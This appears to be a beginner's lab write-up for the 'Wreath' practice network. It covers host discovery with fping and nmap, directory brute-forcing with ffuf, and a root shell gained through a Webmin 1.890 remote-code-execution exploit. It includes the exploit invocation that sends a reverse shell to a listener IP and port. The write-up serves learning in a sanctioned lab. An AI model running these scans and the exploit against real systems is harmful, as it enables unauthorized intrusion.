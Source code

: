 ![image](https://github.com/user-attachments/assets/b5bd875b-fcc3-4286-afcc-a077677343fc)Wreath is designed as a learning resource for beginners with a primary focus on:

Pivoting
Working with the Empire C2 (Command and Control) framework
Simple Anti-Virus evasion techniques



# Brief
There are two machines on my home network that host projects and stuff I'm working on in my own time -- 
one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.


# Enumeration 

As with any attack, we first begin with the enumeration phase
1. Fping: Using the command fping -agq 10.200.73.200/24 the network was ping to figure out what is in the network
The reult returned 3 Ip address,
  A. 10.200.73.1 - the gateway
  B. 10.200.73.200 - Which is the public facing server 
  C. 10.200.73.250 - unknown machine
![image](https://github.com/user-attachments/assets/1f8ce2fb-c9a3-4f5a-8f7b-7f3a33af18e1)



2. Nmap: This was used to further enumerate the Hosts found in the network
   A.  10.200.73.250 Host: This was scanned using nmap -T4 -sV -A 10.200.73.250  -oN scan.txt  and the result only showed
       i.  port 22 is actively running OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

   ![image](https://github.com/user-attachments/assets/13b0b801-9bd8-4a18-aeeb-ca6942862a54)

  B. 10.200.73.200 Host: This was scanned using nmap -T4 -sV -p- 15000  -A 10.200.73.200  -oN scan.txt, and it returned the following
      i. Port 22 runnig OpenSSH 8.0 (protocol 2.0)
      ii. Port 80 running Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
      iii.Port  443   Apache/2.4.37 (centos) OpenSSL/1.1.1c
      ![image](https://github.com/user-attachments/assets/01be25df-0866-42bd-be16-3791b2237e54)
Going forward with the enumeration, the website was accessed, and was accessible only after adding the domain name resolved on the bowsrr when the IP addressed was input into the browser, into the /etc/hosts file
![image](https://github.com/user-attachments/assets/2c468504-6e52-4663-ba16-9dcba2c33952)
The website was subjcted to directory bruteforcing using  ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.200.73.200/FUZZ -fc 403
![image](https://github.com/user-attachments/assets/f65d363c-0923-42b2-8f3b-090c8273d094)

....
      iv. Port 9090 which showed closed status but is running zeus-admin
      v. Port 10000 running      MiniServ 1.890 (Webmin httpd): The website was accessed and it contained a login in page.  
![image](https://github.com/user-attachments/assets/8603471a-26cb-42e9-9b7e-d151c5ff90ba)


      vi. The operating system is linux CenSOS


# Exploitation

From the Enumeratin, it was discovered that the webserver on port 10000 of the  10.200.73.200 Host is running  MiniServ 1.890 (Webmin httpd)
A closer look at this version showed that it is vulnerable to RCE that gives a root shell
![image](https://github.com/user-attachments/assets/b454cbaf-d8cd-470c-8066-516afbdf71b8)

Using a publicly available python script and setting up a listner on port 2294, the RCE vulnerablity was exploited
./exploit.py  10.200.73.200 10000   10.50.66.4 2294           
screnshot of the script:
![image](https://github.com/user-attachments/assets/d845e147-f37a-42b0-9363-9b7067507d0d)
screensot of the listener getting root shell
![image](https://github.com/user-attachments/assets/07b17aab-1e5a-4daf-b85e-a084bffcf05e)

